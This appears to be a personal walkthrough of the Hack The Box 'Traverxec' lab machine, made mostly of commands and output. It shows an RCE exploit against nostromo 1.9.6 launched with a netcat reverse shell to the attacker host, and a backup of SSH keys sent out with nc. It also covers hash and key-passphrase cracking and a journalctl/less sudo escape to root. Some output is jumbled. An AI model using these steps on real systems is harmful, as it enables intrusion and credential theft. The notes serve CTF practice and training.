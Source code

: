 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


kali@kali:~/htb/boxes/traverxec/10.10.10.165$ searchsploit nostromo 1.9.6

nostromo 1.9.6 - Remote Code Execution
                 | multiple/remote/47837.py\




 python 47837.py 10.10.10.165 80 "nc -e bash 10.10.14.8 1234"

 ![](2021-02-23-15-35-24.png)

 find / -iname index.html

 /var/nostromo/htdocs/index.html


 www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf 
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www


/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/


hashcat --username -m 500 "david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/" rockyou.txt --show

$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me


ssh david@10.10.10.165


[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
Netid   State   Recv-Q   Send-Q     Local Address:Port      Peer Address:Port                                                                                   
udp     ESTAB   0        0           10.10.10.165:49307      10.211.55.1:53                                                                                     
tcp     ESTAB   0        4533        10.10.10.165:45014       10.10.14.8:1234    users:(("python",pid=778,fd=1),("python",pid=778,fd=0),("bash",pid=775,fd=1),("bash",pid=775,fd=0))
tcp     ESTAB   0        0           10.10.10.165:80          10.10.14.8:46410   users:(("ss",pid=13477,fd=5),("sed",pid=13475,fd=5),("bash",pid=13474,fd=5),("bash",pid=9586,fd=5),("bash",pid=779,fd=5),("python",pid=778,fd=5),("bash",pid=775,fd=5))



![](2021-02-23-16-15-51.png)


www-data@traverxec:/home/david/public_www$ ls
index.html  protected-file-area

www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz



nc 10.10.14.8 1337 < backup-ssh-identity-files.tgz



kali@kali:~/htb/boxes/traverxec/10.10.10.165$ tar xvfz backup-ssh-identity-files.tgz 
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub


kali@kali:~/htb/boxes/traverxec/10.10.10.165$ cat home/david/.ssh/authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsXrsMQc0U71GVXMQcTOYIH2ZvCwpxTxN1jOYbTutvNyYThEIjYpCVs5DKhZi2rNunI8Z+Ey/FC9bpmCiJtao0xxIbJ02c+H6q13aAFrTv61GAzi5neX4Lj2E/pIhd3JBFYRIQw97C66MO3UVqxKcnGrCvYnhJvKMw7nSRI/cXTPHAEnwU0+NW2zBKId8cRRLxGFyM49pjDZPsAVgGlfdBD380vVa9dMrJ/T13vDTZZGoDgcq9gRtD1B6NJoLHaRWH4ikRuQvLWjk3nWDDaRjw6MxmRtLk8h0MM7+IiBYc6NJvbQzpG5M5oM0FvhawQetN71KcZ4jUVxN3m+YkaqHD david@traverxec


kali@kali:~/htb/boxes/traverxec/10.10.10.165$ ssh -i home/david/.ssh/authorized_keys david@10.10.10.165
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'home/david/.ssh/authorized_keys' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "home/david/.ssh/authorized_keys": bad permissions
david@10.10.10.165's password: 



kali@kali:~/htb/boxes/traverxec/10.10.10.165$ cp home/david/.ssh/authorized_keys david.pub
kali@kali:~/htb/boxes/traverxec/10.10.10.165$ chmod 600 david.pub


kali@kali:~/htb/boxes/traverxec/10.10.10.165$ ssh -i home/david/.ssh/id_rsa david@10.10.10.165
Enter passphrase for key 'home/david/.ssh/id_rsa': 
Nowonly4me



/usr/share/john/ssh2john.py id_rsa > id_rsa.hash


kali@kali:~/htb/boxes/traverxec/10.10.10.165$ john id_rsa.hash  --show                                                                                                                                                                                                                                                      
id_rsa:hunter


kali@kali:~/htb/boxes/traverxec/10.10.10.165$ ssh -i ./id_rsa david@10.10.10.165
Enter passphrase for key './id_rsa': 
hunter

Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
.19.67-2+deb10u1 (2019-09-20) x86_64



david@traverxec:~/bin$ ls -lah .
total 16K
drwx------ 2 david david 4.0K Oct 25  2019 .
drwx--x--x 5 david david 4.0K Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
david@traverxec:~/bin$ ./server-stats.sh ^C
david@traverxec:~/bin$ cat server-stats.head 
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""' 


[+] PATH                                                                                                                                                                                                                                                                                                                     
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses                                                                                                                                                                                                                                         
/home/david/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games                                                                                                                                                                                                                                                     
New path exported: /home/david/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/sbin:/usr/sbin:/sbin          



[+] Cron jobs                                                                  
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs
-rw-r--r-- 1 root root 1042 Jun 23  2019 /etc/cronta




./server-stats.sh
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat


https://gtfobins.github.io/gtfobins/journalctl/



stty rows 3

in less:
!bash


root@traverxec:/home/david/bin# id
uid=0(root) gid=0(root) groups=0(root)
